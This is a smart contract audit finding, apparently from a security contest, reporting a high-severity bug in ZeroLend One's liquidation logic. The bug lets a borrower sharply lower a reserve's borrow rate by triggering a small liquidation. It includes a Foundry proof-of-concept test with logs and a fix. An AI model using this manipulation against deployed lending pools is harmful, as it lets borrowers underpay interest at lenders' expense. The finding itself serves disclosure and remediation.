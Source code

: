 Big Admiral Dove

High

# A Reserve Borrow Rate can be significantly decreased after liquidation

## Summary

When performing a liquidation, the borrow rate of the reserve is updated by burnt debt shares instead of the remaining debt shares.

Therefore, according to the amount of the burnt shares in a liquidation, the borrow rate can be significantly decreased.

## Vulnerability Detail

In the `LiquidationLogic::executeLiquidationCall()` function, there is a `_repayDebtTokens()` function call to burn covered debt shares through the liquidation.

```solidity
  function executeLiquidationCall(
    mapping(address => DataTypes.ReserveData) storage reservesData,
    mapping(uint256 => address) storage reservesList,
    mapping(address => mapping(bytes32 => DataTypes.PositionBalance)) storage balances,
    mapping(address => DataTypes.ReserveSupplies) storage totalSupplies,
    mapping(bytes32 => DataTypes.UserConfigurationMap) storage usersConfig,
    DataTypes.ExecuteLiquidationCallParams memory params
  ) external {
    ... ...
    _repayDebtTokens(params, vars, balances[params.debtAsset], totalSupplies[params.debtAsset]);
    ... ...
  }
```

In the `_repayDebtTokens()` function, `nextDebtShares` of `debtReserveCache` is updated with burnt shares instead of the remaining debt shares.

```solidity
  function _repayDebtTokens(
    DataTypes.ExecuteLiquidationCallParams memory params,
    LiquidationCallLocalVars memory vars,
    mapping(bytes32 => DataTypes.PositionBalance) storage balances,
    DataTypes.ReserveSupplies storage totalSupplies
  ) internal {
    uint256 burnt = balances[params.position].repayDebt(totalSupplies, vars.actualDebtToLiquidate, vars.debtReserveCache.nextBorrowIndex);
    vars.debtReserveCache.nextDebtShares = burnt; // <-- Wrong here!!!
  }
```

This incorrectly updated `debtReserveCache.nextDebtShares` then is used to update the borrow rate in interest rate strategy.

Consequently, we can have conclusion that the less amount of debt is covered when running a liquidation, the lower the borrow rate gets because next borrow rate depends on the amount of burnt debt shares.

### Proof-Of-Concept

Here is a proof test case:

```solidity
// SPDX-License-Identifier: BUSL-1.1
pragma solidity 0.8.19;

import "../../../../lib/forge-std/src/console.sol";

import './PoolSetup.sol';

import {ReserveConfiguration} from './../../../../contracts/core/pool/configuration/ReserveConfiguration.sol';

import {UserConfiguration} from './../../../../contracts/core/pool/configuration/UserConfiguration.sol';

contract PoolLiquidationTest is PoolSetup {
  using UserConfiguration for DataTypes.UserConfigurationMap;
  using ReserveConfiguration for DataTypes.ReserveConfigurationMap;
  using ReserveConfiguration for DataTypes.ReserveData;

  address alice = address(1);
  address bob = address(2);

  uint256 mintAmountA = 1000 ether;
  uint256 mintAmountB = 2000 ether;
  uint256 supplyAmountA = 550 ether;
  uint256 supplyAmountB = 750 ether;
  uint256 borrowAmountB = 400 ether;

  function setUp() public {
    _setUpPool();
    pos = keccak256(abi.encodePacked(alice, 'index', uint256(0)));
  }

  // @audit-poc
  function testLiquidationDecreaseBorrowRatePoc() external {
    oracleA.updateAnswer(100e8);
    oracleB.updateAnswer(100e8);

    _mintAndApprove(alice, tokenA, mintAmountA, address(pool));
    _mintAndApprove(bob, tokenB, mintAmountB, address(pool));

    vm.startPrank(alice);
    pool.supplySimple(address(tokenA), alice, supplyAmountA, 0);
    vm.stopPrank();

    vm.startPrank(bob);
    pool.supplySimple(address(tokenB), bob, supplyAmountB, 0);
    vm.stopPrank();

    vm.startPrank(alice);
    pool.borrowSimple(address(tokenB), alice, borrowAmountB - 1 ether, 0);
    vm.stopPrank();

    // Advance time to make the position unhealthy
    vm.warp(block.timestamp + 360 days);
    oracleA.updateAnswer(100e8);
    oracleB.updateAnswer(100e8);

    // Expect the position unhealthy
    vm.startPrank(alice);
    vm.expectRevert(bytes('HEALTH_FACTOR_LOWER_THAN_LIQUIDATION_THRESHOLD'));
    pool.borrowSimple(address(tokenB), alice, 1 ether, 0);
    vm.stopPrank();

    // Print log of borrow rate before liquidation
    pool.forceUpdateReserve(address(tokenB));
    DataTypes.ReserveData memory reserveDataB = pool.getReserveData(address(tokenB));
    console.log("reserveDataB.borrowRate before:", reserveDataB.borrowRate);

    vm.startPrank(bob);
    vm.expectEmit(true, true, true, false);
    emit PoolEventsLib.LiquidationCall(address(tokenA), address(tokenB), pos, 0, 0, bob);
    pool.liquidateSimple(address(tokenA), address(tokenB), pos, 0.01 ether);
    vm.stopPrank();

    // Print log of borrow rate after liquidation
    reserveDataB = pool.getReserveData(address(tokenB));
    console.log("reserveDataB.borrowRate after: ", reserveDataB.borrowRate);
  }
}

```

And logs are:
```bash
$ forge test --match-test testLiquidationDecreaseBorrowRatePoc -vvv
[⠒] Compiling...
[⠊] Compiling 11 files with Solc 0.8.19
[⠒] Solc 0.8.19 finished in 5.89s
Compiler run successful!

Ran 1 test for test/forge/core/pool/PoolLiquidationPocTests.t.sol:PoolLiquidationTest
[PASS] testLiquidationDecreaseBorrowRatePoc() (gas: 1205596)
Logs:
  reserveDataB.borrowRate before: 105094339622641509433962264
  reserveDataB.borrowRate after:  4242953968798528786019
```

## Impact

A malicious borrower can manipulate the borrow rate of his any unhealthy positions and repay his debt with signficantly low borrow rate.

## Code Snippet

[pool/logic/LiquidationLogic.sol#L246](https://github.com/sherlock-audit/2024-06-new-scope/blob/c8300e73f4d751796daad3dadbae4d11072b3d79/zerolend-one/contracts/core/pool/logic/LiquidationLogic.sol#L246)

## Tool used

Manual Review

## Recommendation

Should update the `nextDebtShares` with `totalSupplies.debtShares`:

```diff
  function _repayDebtTokens(
    DataTypes.ExecuteLiquidationCallParams memory params,
    LiquidationCallLocalVars memory vars,
    mapping(bytes32 => DataTypes.PositionBalance) storage balances,
    DataTypes.ReserveSupplies storage totalSupplies
  ) internal {
    uint256 burnt = balances[params.position].repayDebt(totalSupplies, vars.actualDebtToLiquidate, vars.debtReserveCache.nextBorrowIndex);
-   vars.debtReserveCache.nextDebtShares = burnt;
+   vars.debtReserveCache.nextDebtShares = totalSupplies.debtShares;
  }

```